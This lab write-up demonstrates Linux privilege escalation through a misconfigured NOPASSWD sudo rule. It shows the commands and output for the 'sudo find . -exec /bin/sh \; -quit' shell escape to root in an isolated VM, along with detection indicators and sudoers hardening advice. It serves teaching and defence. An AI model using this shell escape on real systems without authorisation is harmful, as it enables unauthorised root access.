




# Sudo Misconfiguration

**Sudo **Misconfiguration <br>
**Date:** June 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Privilege Escalation <br>
**Difficulty:** Easy <br>
**Tools:** SSH, sudo, find, GTFOBins 


## Table of Contents

- [Introduction](#introduction)
- [Why This Attack Works](#why-this-attack-works)
- [Lab Setup](#lab-setup)
- [What I Needed Before Starting](#what-i-needed-before-starting)
- [What I Understood During the Process](#what-i-understood-during-the-process)
- [Attack Flow](#attack-flow)
- [Step 1 — Connecting to the Target and Checking Sudo Permissions](#step-1--connecting-to-the-target-and-checking-sudo-permissions)
- [Step 2 — Picking a Binary and Checking GTFOBins](#step-2--picking-a-binary-and-checking-gtfobins)
- [Step 3 — Abusing find with Sudo to Get a Root Shell](#step-3--abusing-find-with-sudo-to-get-a-root-shell)
- [Step 4 — Confirming Full Root Access](#step-4--confirming-full-root-access)
- [How Defenders Can Catch This](#how-defenders-can-catch-this)
- [How to Prevent It](#how-to-prevent-it)
- [What I Achieved](#what-i-achieved)

## Introduction

Sudo Misconfiguration is one of the most common and easiest privilege escalation techniques on Linux. When a normal user is allowed to run certain binaries as root through sudo — especially with NOPASSWD — and that binary has a way to spawn a shell or execute commands, the user can break out into a full root shell with almost no effort.

## Why This Attack Works

Sudo is meant to let normal users run specific commands as root without giving them full root access. But the problem comes in when the binaries allowed through sudo are not just simple, harmless tools. Many common Linux binaries like find, vim, awk, less, nmap, and man have hidden functions that let them execute shell commands.
If sudo allows a user to run one of these binaries as root, the user can trigger that hidden shell escape function. Since the binary itself is running as root, the shell it spawns is also root — completely bypassing the whole point of sudo restrictions.

## Lab Setup
```
| Component        | Details                                  |
|------------------|------------------------------------------|
| Attacker Machine | Kali Linux                               |
| Victim Machine   | Debian Linux                             |
| Victim IP        | 192.168.5.133                            |
| Access Method    | SSH with valid low-privilege credentials |
| Network          | VMware Host-Only Network                 |
```

## What I Needed Before Starting
```
| What                                     | Why                                            |
|------------------------------------------|------------------------------------------------|
| SSH credentials for a low-privilege user | Starting point for the attack                  |
| `sudo -l` access                         | To see which commands I could run as root      |
| GTFOBins website                         | To find the shell escape for the allowed binary|
```

## What I Understood During the Process

While working through this attack I realized that:

- Running sudo -l should be the very first thing checked on any Linux box
- A long list of NOPASSWD binaries is basically a free pass to root if even one of them is on GTFOBins
- GTFOBins makes this attack almost effortless — you do not need to remember exploit syntax, just search the binary and copy the command
- Many admins do not realize how dangerous it is to give sudo access to tools like find, vim, or less
- One misconfigured sudo rule was enough to go from a normal user straight to full root with (ALL) ALL permissions

## Attack Flow
```
Connected to the target over SSH with low privilege credentials
                        ↓
Checked sudo permissions with sudo -l
                        ↓
Found a long list of binaries allowed as root with NOPASSWD
                        ↓
Searched GTFOBins for the find binary
                        ↓
Found the Sudo function escape command for find
                        ↓
Ran sudo find . -exec /bin/sh \; -quit
                        ↓
Got a root shell immediately
                        ↓
Confirmed with whoami and id
                        ↓
Checked sudo -l as root — full (ALL) ALL access confirmed
```

## Step 1 — Connecting to the Target and Checking Sudo Permissions

### Connected to the Target via SSH

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa user@192.168.5.133
```

- `-o HostKeyAlgorithms=+ssh-rsa` : Allows older RSA host key algorithm — needed for older Linux systems
- `-o PubkeyAcceptedAlgorithms=+ssh-rsa` : Allows older RSA public key algorithm for authentication
- `192.168.5.133` : Target IP
- `user`: User Name

**Output:**

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
user@192.168.5.133's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 30 12:32:04 2026 from 192.168.5.128
```
It prompted for the password right after the connection request, I typed password321, and got logged in successfully. The kernel version 2.6.32 stood out right away.

I logged in as `user` — a normal low privilege account on the system.

<p align="center">
  
</p>

### Checking Sudo Permissions

```bash
user@debian:~$ sudo -l
```
**Output:**

```
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
The output showed that I could run several binaries as root without entering a password. Some of these binaries are listed on GTFOBins because they can be used to escape to a root shell when they are allowed through `sudo`.

<p align="center">
  
</p>

## Step 2 — Picking a Binary and Checking GTFOBins

From the list of binaries I could run as root, I chose find because it is one of the most reliable binaries for getting a root shell.

```bash
(root) NOPASSWD: /usr/bin/find
```
I then went to GTFOBins and searched for find.
The find page listed several functions, including Shell, File Write, SUID, and Sudo. Since I was allowed to run find with sudo, I opened the Sudo section to get the command needed to spawn a root shell.

<p align="center">
  
</p>

## Step 3 — Abusing find with Sudo to Get a Root Shell

GTFOBins gave me the exact command for the Sudo function of find

```bash
find . -exec /bin/sh \; -quit
```

- `sudo find` : Runs `find` as **root** through the `sudo` `NOPASSWD` rule.
- `.` : Searches in the current directory. 
- `-exec /bin/sh \;` : Executes `/bin/sh` for the first file found. Since `find` is running as **root**, the shell also runs as **root**. 
- `-quit` : Stops after the first match so `find` does not continue searching. S

### Ran the Command

```bash
user@debian:~$ sudo find . -exec /bin/sh \; -quit
```
**Output:**

```
sh-4.1#
```
The prompt changed from user@debian to sh-4.1# — that # symbol confirms I was now root.

## Step 4 — Confirming Full Root Access
```bash
sh-4.1# whoami
```
```
root
```

```bash
sh-4.1# id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
<p align="center">
  
</p>

I went from a normal low privilege user straight to a fully unrestricted root account, all from one misconfigured sudo rule on the find binary.

## How Defenders Can Catch This
```
|                                            Indicator                                   |         What to look for          |
|----------------------------------------------------------------------------------------|-----------------------------------|
| `sudo -l` run by a non-admin user                                                      | Audit logs (`/var/log/auth.log`)  |
| Unexpected root shell spawned from a non-root user session                             | Process monitoring (`auditd`)     |
| Use of `find`, `vim`, `awk`, or similar tools with sudo right before a UID change to 0 | Command history and session logs  |
| `sudoers` file containing risky `NOPASSWD` entries                                     | Regular sudoers file audits       |
```

## How to Prevent It

Never give sudo access to shell-capable binaries unless absolutely necessary
Tools like `find`, `vim`, `awk`, `less`, `man`, `nmap`, and many others can spawn shells. Check every binary against GTFOBins before adding it to a sudoers rule.
Always require a password for sudo unless there is a strong reason not to
Avoid NOPASSWD wherever possible. It removes a critical layer of protection.
Restrict sudo rules to exact arguments, not the whole binary
Instead of allowing the full binary, restrict it to specific safe arguments using sudoers syntax:

```bash
user ALL=(root) NOPASSWD: /usr/bin/find /var/log -type f
```

### Audit sudoers file regularly

```bash
sudo visudo -c
cat /etc/sudoers
ls /etc/sudoers.d/
```

### Check GTFOBins for every binary granted sudo access

Before granting sudo rights to any tool, search it on gtfobins.github.io to see if it has a known privilege escalation path.

## What I Achieved

By completing this attack I showed that:

- A single misconfigured sudo rule was enough to go from a normal user to full root access
- No exploits, CVEs, or complex techniques were needed — just a list of NOPASSWD binaries and GTFOBins
- This is one of the most common privilege escalation paths found in real Linux environments
- Admins often do not realize how dangerous it is to give sudo access to everyday tools like find or vim

## References

| Resource | Link |
|----------|------|
| **GTFOBins** | https://gtfobins.github.io |
| **GTFOBins — find** | https://gtfobins.github.io/gtfobins/find |
| **Linux sudo man page** | https://www.man7.org/linux/man-pages/man8/sudo.8.html |
| **Sudoers file documentation** | https://www.sudo.ws/docs/man/sudoers.man |
| **MITRE ATT&CK — Sudo and Sudo Caching** | https://attack.mitre.org/techniques/T1548/003 |
| **HackTricks — Sudo Privilege Escalation** | https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid |
| **PayloadsAllTheThings — Sudo Exploitation** | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo-exploitation |